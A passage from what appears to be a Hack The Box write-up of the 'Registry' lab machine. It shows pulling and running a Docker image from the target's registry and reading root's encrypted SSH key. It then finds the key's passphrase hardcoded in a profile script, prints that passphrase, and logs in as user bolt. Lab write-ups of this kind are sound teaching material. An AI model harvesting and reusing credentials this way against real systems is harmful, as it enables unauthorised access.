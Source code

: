 We discover a ```bolt-image```, let's pull and run it locally.

```bash
sudo docker pull docker.registry.htb/bolt-image
```

```
danps@pwnbox:~/hackthebox/registry$ sudo docker images
REPOSITORY                       TAG                 IMAGE ID            CREATED             SIZE
docker.registry.htb/bolt-image   latest              601499e98a60        10 months ago       362MB
```

Now let's enumerate it to see if we find any valid credentials.

```bash
sudo docker run -it docker.registry.htb/bolt-image
```

Inside the container we can see a ```.ssh```file inside the ```root``` directory.

Looking at the the ```id_rsa.pub``` file we can see an user ```bolt```. Another interesting file is ```id_rsa``` which contains the bolt user's private key, however it is encrypted.

```
root@870d4f2aab64:~/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,1C98FA248505F287CCC597A59CF83AB9
```

At first I thought I had to brute force this, but it did not work so I went back to enumerate more the machine.

Looking at the ```.viminfo```file inside the ```root```directory I noticed some references to ```/etc/profile.d/01-ssh.sh```.

```
root@870d4f2aab64:~# cat /etc/profile.d/01-ssh.sh 
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

It turned out to be a script to add and put the password to the ```id_rsa```

Credentials

*  bolt
* id_rsa
  * GkOcz221Ftb3ugog

Let's login.

```
danps@pwnbox:~/hackthebox/registry$ ssh -i id_rsa bolt@registry.htb
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Fri Apr  3 15:54:38 UTC 2020

  System load:  0.0               Users logged in:                0
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 23%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    154
Last login: Fri Apr  3 15:53:46 2020 from 10.10.14.38
bolt@bolt:~$ 
```
